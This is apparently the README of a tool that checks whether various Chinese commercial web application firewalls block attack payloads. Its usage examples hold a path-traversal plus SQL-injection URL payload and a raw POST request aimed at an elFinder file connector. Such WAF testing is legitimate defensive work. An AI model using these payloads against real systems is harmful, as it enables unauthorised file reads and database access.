 # WAF Payload 拦截测试器

这是一个用于测试不同 WAF (Web Application Firewall) 对 payload 拦截情况的工具。支持创宇盾、腾讯云、阿里云、玄武盾、宝塔云WAF、D盾、安全狗、奇安信网站卫士、长亭雷池WAF等多种 WAF。

## 功能特点

- 支持简单的 URL 请求验证（URL 链接中包含敏感 payload）
- 支持复杂的请求验证（POST、PUT、DELETE 等有数据包的请求）
- 支持在终端以表格形式展示测试结果
- 支持指定特定的防火墙进行验证
- 支持在防火墙拦截的情况下获取拦截页面信息
- 支持自确认模式，验证当前 WAF 的状态是否正常

## TODO功能

- 新增--cve-payload选项，支持直接指定CVE编号自动验证POC/EXP是否拦截
- 新增--link-payload选项，支持指定漏洞分析/漏洞情报/漏洞详情网页地址自动验证POC/EXP是否拦截
- 新增--ai-payload选项，支持自然语言描述漏洞信息自动验证POC/EXP是否拦截

## 安装

```bash
# 克隆仓库
git clone https://github.com/pbuff07/waf_repeater.git
cd waf_repeater

# 安装依赖
pip install -r requirements.txt
```

## 使用

## 自检查

```
python main.py --verify
```

自检查选项会发送对应WAF必拦截的Payload测试站点防护是否在线。

![image-20250509150613661](./images/self.png)

### 简单 URL 验证
```python
python main.py --url-payload "/?filename=/etc/passwd&content=1' union select 1,2,database(),4,5,6,7#"
```

![image-20250509150124871](./images/simple.png)

### 复杂请求验证

```python
python main.py --file-payload payload.txt
```

Payload.txt 内容如下：

```
POST //cwbase/web/themes/elfinder/php/connector.minimal.php HTTP/1.1
Host: www.baidu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: id=4878d749336b447428d5a36114e9bfac
If-None-Match: "62efd223-3"
If-Modified-Since: Sun, 07 Aug 2022 14:54:27 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

target=l1_%3C@base64%3E/var/www/html/elfinder/files/%3C@/base64%3E&downLoad=1
```

![image-20250509150420604](./images/file.png)
